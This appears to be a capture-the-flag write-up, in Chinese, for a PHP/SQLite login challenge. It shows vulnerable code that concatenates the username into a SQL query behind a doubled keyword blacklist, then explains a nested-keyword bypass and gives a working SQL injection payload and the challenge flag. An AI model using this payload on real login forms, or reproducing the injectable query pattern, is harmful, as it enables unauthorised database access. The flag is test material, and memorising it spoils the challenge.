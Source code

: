 ```php
                redirect('/', 'invalid csrf_token');
            }

            // Check if username and password are given
            $username = @$_POST['username'];
            $password = @$_POST['password'];
            if (!$username || !$password) {
                redirect('/', 'username and password should not be empty');
            }

            // Get rid of sqlmap kiddies
            if (stripos($_SERVER['HTTP_USER_AGENT'], 'sqlmap') !== false) {
                redirect('/', "sqlmap is child's play");
            }

            // Get rid of you
            $bad = [' ', '/*', '*/', 'select', 'union', 'or', 'and', 'where', 'from', '--'];
            $username = str_ireplace($bad, '', $username);
            $username = str_ireplace($bad, '', $username);

            // Auth
            $hash = md5($password);
            $row = (new SQLite3('/db.sqlite3'))
                ->querySingle("SELECT * FROM users WHERE username = '$username' AND password = '$hash'", true);
            if (!$row) {
                redirect('/', 'login failed');
            }

            $_SESSION['user'] = $row['username'];
            redirect('/');
        }
        else {
            redirect('/', "unknown action: $action");
        }
    }

    $user = @$_SESSION['user'];
```

看起來是個SQLi的題目，但是前面過濾了一些會用到的關鍵字，還過濾兩次，但其實是可以被繞過的!  
比方說`union`，如果我把關鍵字做成`unoorrion`，第一次過濾後會變成`unorion`再經過一次之後會變成`union`就變成合法的關鍵字了! 每個關鍵字都可以透過這種方法來繞過! 

但空白也會被過濾掉，但是其實可以透過`/`來代替空白，代替完的Query還是合法的!

最終Query: `'/oorr**oorr/unoorrion/oorr**oorr/all/oorr**oorr/selecoorrt/oorr**oorr/1,group_concat(value),2/oorr**oorr/frfrfromomom/oorr**oorr/garbage/oorr*`

Flag: `AIS3{4_ch1ld_15_4_curly_d1mpl3d_lun471c}`